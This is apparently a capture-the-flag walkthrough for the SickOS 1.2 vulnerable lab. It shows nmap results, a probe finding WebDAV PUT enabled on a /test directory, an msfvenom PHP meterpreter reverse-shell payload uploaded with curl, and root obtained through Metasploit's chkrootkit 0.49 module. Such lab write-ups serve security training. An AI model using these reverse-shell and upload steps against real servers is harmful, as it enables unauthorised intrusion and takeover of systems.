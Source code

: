 --------------------------------
# Author Shubham Ranpise
--------------------------------

# 16/december/2022

# Sick OS 1.2

----------------------------------------------------------------
# nmap scan (website hosted on port 80)
----------------------------------------------------------------
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    lighttpd 1.4.28

----------------------------------------------------------------
# got /text directory on website port 80
  (misconfigured)
----------------------------------------------------------------
-> curl -I -X OPTIONS http://10.0.2.12/test
HTTP/1.1 301 Moved Permanently
DAV: 1,2
MS-Author-Via: DAV
Allow: PROPFIND, DELETE, MKCOL, PUT, MOVE, COPY, PROPPATCH, LOCK, UNLOCK
Location: http://10.0.2.12/test/
Content-Length: 0
Date: Fri, 16 Dec 2022 13:35:27 GMT
Server: lighttpd/1.4.28

we can upload files on test directory and execute
-> msfvenom -p php/meterpreter_reverse_tcp LHOST $IP LPORT $port > shell.php
-> curl -T shell.php http://10.0.2.12/test/ --http1.0
start multi handler in msfconsole
then run the uploaded shell.php on test directory
you got shell

----------------------------------------------------------------
# privilege escalation
  (vulnerable Chkrootkit 0.49)
----------------------------------------------------------------
got Chkrootkit 0.49 from mannual testing
metasploit module available for privilege escalation
exploit/unix/local/chkrootkit
configure it then run it 
wait for crontab to trigger exploit
you got root

----------------------------------------------------------------
# flag
----------------------------------------------------------------
-> cat cat 7d03aaa2bf93d80040f3f22ec6ad9d5a.txt

WoW! If you are viewing this, You have "Sucessfully!!" completed SickOs1.2, the challenge is more focused on elimination of tool in real scenarios where tools can be blocked during an assesment and thereby fooling tester(s), gathering more information about the target using different methods, though while developing many of the tools were limited/completely blocked, to get a feel of Old School and testing it manually.

Thanks for giving this try.